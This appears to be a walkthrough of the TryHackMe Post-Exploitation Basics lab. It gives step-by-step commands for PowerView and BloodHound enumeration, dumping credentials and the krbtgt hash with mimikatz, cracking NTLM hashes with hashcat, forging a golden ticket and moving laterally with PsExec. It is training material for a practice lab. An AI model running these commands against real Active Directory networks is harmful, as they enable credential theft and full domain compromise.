 # Post-Exploitation Basics

**Room Link:** [https://tryhackme.com/room/postexploit](https://tryhackme.com/room/postexploit)



## Presteps for Lab

### SharpHound Installation

SharpHound version on the box is too old for the current version of Bloodhound so I had to update it.

**Kali**

```
git clone https://github.com/BloodHoundAD/BloodHound.git

scp -r BloodHound/Collectors/SharpHound.ps1 Administrator@$VICTIM:C:/Users/Administrator/
Password: P@$$W0rd
```

Added this line to SharpHound.ps1 before transfering so I could run the command right away

<figure><img src="../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
powershell -ep bypass
.\SharpHound.ps1
```

### BloodHound Installation

```
apt-get install bloodhound
neo4j console
```

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Powerview

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```



**Victim**

Run below to be able to run PowerView commands.

```
powershell -ep bypass
. .\Downloads\PowerView.ps1
```

Enumerate the domain users.

```
Get-NetUser | select cn
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Enumerate the domain groups.

```
Get-NetGroup -GroupName *admin*
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Find Shared folders.

```
Invoke-ShareFinder
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get Operating systems on the network.

```
Get-NetComputer -fulldata | select operatingsystem
```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Bloodhound

Setup and get loot with Bloodhound.

**Victim**

```
powershell -ep bypass
. .\Downloads\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```



Transfer Bloodhound results back to Kali. SCP can be used in this case

**Kali**

```
scp Administrator@$VICTIM:C:/Users/Administrator/20230212071833_loot.zip loot.zip
Password: P@$$W0rd
```

### Mapping the network w/ BloodHound

```
bloodhound --no-sandbox
```

We can just drag the zip file to bloodhound to import it.

<figure><img src="../../.gitbook/assets/image (6) (8) (1).png" alt=""><figcaption></figcaption></figure>

Find all Domain Admins

<figure><img src="../../.gitbook/assets/image (15) (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

List all Kerberostable accounts

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Dumping hashes w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

**Victim**

```
cd Downloads && mimikatz.exe
```

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /patch
```

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Copy to Kali output back to Kali

****![](<../../.gitbook/assets/image (3) (7).png>)****

Output only the hashes and remove all duplicates into a new file.

**Kali**

```
cat hashes.txt | grep NTLM | awk -F ":" '{print $2}' | grep "\S" | sed 's/^[ \t]*//'  | sort | uniq > hash.txt
```

<figure><img src="../../.gitbook/assets/image (1) (2) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt --show
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

## Golden Ticket Attacks w/ mimikatz

**Kali**

```
ssh Administrator@$VICTIM
Password: P@$$W0rd
```

### Dump the krbtgt Hash

**Victim**

```
cd downloads && mimikatz.exe
```

This dumps the hash and security identifier of the Kerberos Ticket Granting Ticket account allowing you to create a golden ticket. Take note of what is outlined in red you'll need it to create the golden ticket.

**Victim - Mimikatz**

```
privilege::debug
lsadump::lsa /inject /name:krbtgt
```

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

### Create a Golden Ticket

**Victim - Mimikatz**

```
kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
```

<figure><img src="../../.gitbook/assets/image (11) (5).png" alt=""><figcaption></figcaption></figure>

### Use the Golden Ticket to access other machine

This will open a new command prompt with elevated privileges to all machines.Access other Machines! - You will now have another command prompt with access to all other machines on the network.&#x20;

**Victim - Mimikatz**

```
misc::cmd
```

This doesn't actually work. Because of how tryhackme is setup but you would then be able to access other machines. In the example below you'd need to find out what other machines exists to pull this off.

**Victim**

```
dir \\Desktop-1\c$
PsExec.exe \\Desktop-1 cmd.exe
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

## Enumeration w/ Server Manager

**Kali**

```
rdesktop -d CONTROLLER -u Administrator $VICTIM
Password: P@$$W0rd
```

Open Active Directory

<figure><img src="../../.gitbook/assets/image (1) (1) (5).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (18) (3).png" alt=""><figcaption></figcaption></figure>
